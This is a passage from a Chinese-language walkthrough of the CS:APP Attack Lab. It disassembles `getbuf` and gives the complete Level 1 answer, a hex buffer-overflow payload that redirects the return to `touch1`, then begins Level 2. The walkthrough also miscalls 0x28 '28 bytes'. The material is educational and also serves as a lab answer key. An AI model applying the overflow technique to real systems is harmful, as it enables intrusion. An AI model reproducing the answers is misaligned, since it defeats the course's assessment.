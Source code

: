 下面我们利用 `objdump -d` 命令将程序反汇编来查看 `getbuf` 函数的行为。

```assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

代码比较简单，在第 2 行中将 `rsp` 减了 0x28，申请了一块 28 字节的空间，第 3 行将 `rsp` 赋给 `rdi` 就是空间的首地址，然后调用了 `Gets` 函数，`rdi` 就是它的参数。到这里我们可以确定 `BUFFER_SIZE` 的大小为 0x28（自学讲义中这个值是固定的，但是真正的实验中这个值是由服务器生成的）。换句话说，在 0x28 字节的栈被 `Gets` 函数写满之后，多出来的字符会被写入 `getbuf` 函数的栈外。

下面是低地址，上面是高地址，在 `getbuf` 函数申请的 0x28 字节内存之外的 8 个字节存放的就是 `test` 函数 `call` 指令后下一条指令的地址。

现在我们可以知道，我们需要用 0x28 字节来将栈填满，再写入 `touch1` 函数的入口地址，在 `getbuf` 函数执行到 `ret` 指令的时候就会返回到 `touch1` 中执行。

下面就要利用官方提供的 `hex2raw` 程序来帮助我们生成攻击字符串，这个程序将以空白字符隔开表示的字节转换成真正的二进制字节，注意这个程序只是原样地转换文件中的字符，所以字节序的问题是我们应该考虑的。

最终的答案如下：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
c0 17 40 00 00 00 00 00
```

可以看到前 0x28 个字节都使用 0x00 来填充，然后在溢出的 8 个字节中写入了 `touch1` 的首地址 `0x4017c0`，注意小端的字节序就可以了。

## Leval2

这个等级中我们同样需要跳转到指定的函数 `touch2` 中

```cpp
void touch2(unsigned val) {
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

这里 `cookie` 是服务器给我们的一个数值，存放在 `cookie.txt` 文件中，自学者材料中的这个值应该都是一样的。
